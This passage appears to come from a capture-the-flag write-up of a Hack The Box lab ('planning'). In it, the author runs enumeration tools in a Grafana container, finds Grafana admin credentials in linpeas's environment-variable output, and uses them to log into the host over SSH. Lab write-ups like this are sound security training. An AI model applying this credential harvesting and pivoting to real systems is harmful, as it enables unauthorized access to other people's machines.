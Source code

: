 ### `gdk`
- Another tool!
- Same upload process. I run it and it seems as if we still don't have anything interesting... but then it says that [CVE-2021-22555](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html) might be viable. 
- This means that some of the escape scripts might work.
- Maybe I can do something with Grafana?
### `linpeas`
- Let's see if ol' reliable gives us something...
- That's cool! We have a username and password in the environment variables:
```a
╔══════════╣ Environment  
╚ Any private information inside environment variables?  
GF_PATHS_HOME=/usr/share/grafana  
HOSTNAME=7ce659d667d7  
AWS_AUTH_EXTERNAL_ID=  
SHLVL=2  
HOME=/usr/share/grafana  
OLDPWD=/var/lib/grafana  
AWS_AUTH_AssumeRoleEnabled=true  
GF_PATHS_LOGS=/var/log/grafana  
_=./linpeas.sh  
GF_PATHS_PROVISIONING=/etc/grafana/provisioning  
GF_PATHS_PLUGINS=/var/lib/grafana/plugins  
AWS_AUTH_AllowedAuthProviders=default,keys,credentials  
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!  
AWS_AUTH_SESSION_DURATION=15m  
GF_SECURITY_ADMIN_USER=enzo  
GF_PATHS_DATA=/var/lib/grafana  
GF_PATHS_CONFIG=/etc/grafana/grafana.ini  
AWS_CW_LIST_METRICS_PAGE_LIMIT=500  
PWD=/usr/share/grafana
```
- So there's `enzo:RioTecRANDEntANT!`
- Let's try SSH:
```a
[lkotlus@work] [~/Nerd/htb/planning]    
(bash)> ssh enzo@planning.htb  
enzo@planning.htb's password:    
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
System information as of Thu Aug  7 09:03:07 PM UTC 2025  
  
 System load:  0.0               Processes:             250  
 Usage of /:   70.1% of 6.30GB   Users logged in:       1  
 Memory usage: 54%               IPv4 address for eth0: 10.10.11.68  
 Swap usage:   0%  
  
  
Expanded Security Maintenance for Applications is not enabled.  
  
102 updates can be applied immediately.  
77 of these updates are standard security updates.  
To see these additional updates run: apt list --upgradable  
  
1 additional security update can be applied with ESM Apps.  
Learn more about enabling ESM Apps service at https://ubuntu.com/esm  
  
  
```